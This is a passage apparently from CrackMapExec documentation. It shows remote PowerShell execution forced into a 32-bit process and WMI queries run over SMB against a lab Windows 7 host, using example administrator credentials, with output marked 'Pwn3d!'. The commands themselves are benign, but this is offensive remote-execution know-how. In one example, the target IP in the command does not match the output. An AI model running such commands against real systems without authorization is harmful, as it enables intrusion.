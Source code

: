 ```

Powershell commands can be forced to run in a 32bit process:

```
#~ crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '[System.Environment]::Is64BitProcess' --force-ps32
SMB         192.168.10.11    445    WIN7BOX          [*] Windows 7 Ultimate N 7601 Service Pack 1 x64 (name:WIN7BOX) (domain:LAB) (signing:False) (SMBv1:True)
SMB         192.168.10.11    445    WIN7BOX          [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
SMB         192.168.10.11    445    WIN7BOX          [+] Executed command
SMB         192.168.10.11    445    WIN7BOX          false
```

Other switches include:

```
--no-output       Does not retrieve command results
```

---



# WMI Query Execution

See more about wmi queries and syntax here: [https://docs.microsoft.com/en-us/windows/desktop/wmisdk/invoking-a-synchronous-query](https://docs.microsoft.com/en-us/windows/desktop/wmisdk/invoking-a-synchronous-query)

## Issues the specified WMI query

User/Password

```
#~ cme smb 10.10.33.121 -u Administrator -p 'P@ssw0rd' --wmi "SELECT * FROM Win32_logicalDisk WHERE DeviceID = 'C:'"
SMB         192.168.10.11    445    WIN7BOX         [*] Windows 7 Ultimate N 7601 Service Pack 1 x64 (name:WIN7BOX) (domain:LAB) (signing:False) (SMBv1:True)
SMB         192.168.10.11    445    WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
SMB         192.168.10.11    445    WIN7BOX         Caption => C:
SMB         192.168.10.11    445    WIN7BOX         Description => Local Fixed Disk
SMB         192.168.10.11    445    WIN7BOX         InstallDate => 0
SMB         192.168.10.11    445    WIN7BOX         Name => C:
SMB         192.168.10.11    445    WIN7BOX         Status => 0
SMB         192.168.10.11    445    WIN7BOX         Availability => 0
SMB         192.168.10.11    445    WIN7BOX         CreationClassName => Win32_LogicalDisk
SMB         192.168.10.11    445    WIN7BOX         ConfigManagerErrorCode => 0
SMB         192.168.10.11    445    WIN7BOX         ConfigManagerUserConfig => 0
SMB         192.168.10.11    445    WIN7BOX         DeviceID => C:
```
